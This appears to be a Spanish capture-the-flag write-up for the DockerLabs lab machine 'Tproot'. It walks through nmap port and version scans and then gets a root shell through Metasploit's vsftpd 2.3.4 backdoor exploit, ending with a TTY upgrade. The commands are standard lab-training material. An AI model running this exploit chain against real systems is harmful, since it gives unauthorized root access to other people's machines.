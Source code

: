 #Maquina Tproot
----

Desplegamos la maquina Tproot de dockerlabs.

![image](https://github.com/user-attachments/assets/af103254-7ba7-4ac4-9622-873b8d05a414)


---- 

## Escaneo
Primero hacemos un escaneo de todos los puertos para ver los que están abiertos.

```bash
nmap -p- --open --min-rate 5000 -n -Pn 172.17.0.2 -vvv -oN allPorts.txt
```

- `-p-`: Indicamos que vas a escanear todo el rango de puertos
- `--open`: Indicamos que te muestre solo los puertos que estén abiertos.
- `--min-rate 5000`: Le indicamos a nmap que envie 5000 paquetes por segundo en el escaneo.
- `-n`: Quitamos la resolución DNS del escaneo.
- `-Pn`: Desactivamos la fase de host discobery, porque sabemos que el host esta activo y ademas nos da un poco mas de velocidad en el escaneo.
- `-vvv`: Añadimos verbose.
- `-oN`: Indicamos que nos saque un output del escaneo en formato nmap al archivo allPorts.txt.

![image](https://github.com/user-attachments/assets/beb43990-f502-4992-8ebe-a4b31a0147eb)


Tenemos abiertos los puertos 21 y 80. Vamos a hacer un escaneo de versiones de los servicios que corren en esos puertos.

```bash
nmap -p21,80 -sCV 172.17.0.2 -oN targeted.txt
```

- `-p21,80`: Indicamos que el escaneo se haga solo sobre esos 2 puertos.
- `-sCV`: Indicamos que queremos hacer un escaneo de las versiones que tienen los servicios corriendo en esos puertos y lanza unos scripts de reconocimiento que nos danran un poco mas de informacion osbre el servicio.

![image](https://github.com/user-attachments/assets/1b80d4e8-512e-4dd9-893e-d6e94d0c6ed0)

El escaneo nos muestra las versiones de los servicios que corren por los puertos y podemos ver que tenemos una version vulnerable del servicio ftp por el puerto 21 (vsftpd 2.3.4).

----

## Intrusion

Para la fase de intrusion vamos a usar metasploit.

```bash
msfconsole
```

Una vez en la consola de metasploit buscamos un exploit para la version de ftp del puerto 21 con el comando `search`.

```bash
search vsftpd 2.3.4
```

![image](https://github.com/user-attachments/assets/126b091b-55cf-47ef-9766-0b7b2428c15a)

Vemos que tenemos un exploit para esta version que nos dara un backdor, asique lo seleccionamos y lo configuramos.

```bash
use 0
show options
```

![image](https://github.com/user-attachments/assets/48e0c41b-c8e3-4234-8a29-388758534747)

Nos pide el Remote host. Se lo indicamos con el comando `set` y ya podriamos lanzar el exploit.

```bash
set RHOST 172.17.0.2
```

![image](https://github.com/user-attachments/assets/a195a8cd-a081-417f-afbc-dde02a86854d)

```bash
exploit
```

![image](https://github.com/user-attachments/assets/773bf394-c356-4741-b422-fd9892d1bf38)

Ya tendriamos acceso a la maquina victima con privilegios de root, pero se ve un poco mal y es complicado moverse con la terminal de esa manera. Vamos a hacer un tratamiento de la TTY para añadir un prompt y poder manejarnos mejor.

```bash
script /dev/null -c bash
export TERM=xterm
```

![image](https://github.com/user-attachments/assets/c0419483-20ba-4f19-80c4-e9e955e38e52)

